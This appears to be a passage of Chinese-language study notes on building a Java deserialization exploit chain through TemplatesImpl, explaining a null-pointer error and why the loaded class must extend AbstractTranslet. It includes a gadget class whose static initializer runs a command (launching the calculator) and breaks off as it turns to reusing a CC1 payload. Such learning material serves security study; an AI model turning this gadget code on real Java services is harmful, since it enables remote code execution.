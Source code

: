 ## 空指针error
报了个空指针错误：
具体原因：
```java
if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
                    _transletIndex = i;
                }
                else {
                    _auxClasses.put(_class[i].getName(), _class[i]);
                }
            }
if (_transletIndex < 0) {
                ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
                throw new TransformerConfigurationException(err.toString());
            }
        }
```
这里进了else语句：
auxClasses为空，但是后面又对transletIndex有要求，
所以这里要进if语句，就对类的父类进行要求，找到父类
```java
private static String ABSTRACT_TRANSLET
        = "com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
```
所以要继承这个类。
修改一下test.class
```java
package Enterprise.cc;
import java.io.IOException;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Test  extends  AbstractTranslet{
   static {
       try{
           Runtime.getRuntime().exec("calc");
       } catch(IOException e){
           e.printStackTrace();

       }}

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```
由于是个抽象类，要实现抽象方法，选取AbstractTranslet，按alt+enter,点击实现方法，确认。即可快速实现。
成功执行，弹计算机。
## 找链子
现在就是要寻找能调用templates.transformer的地方。
这里借用cc1的payload：
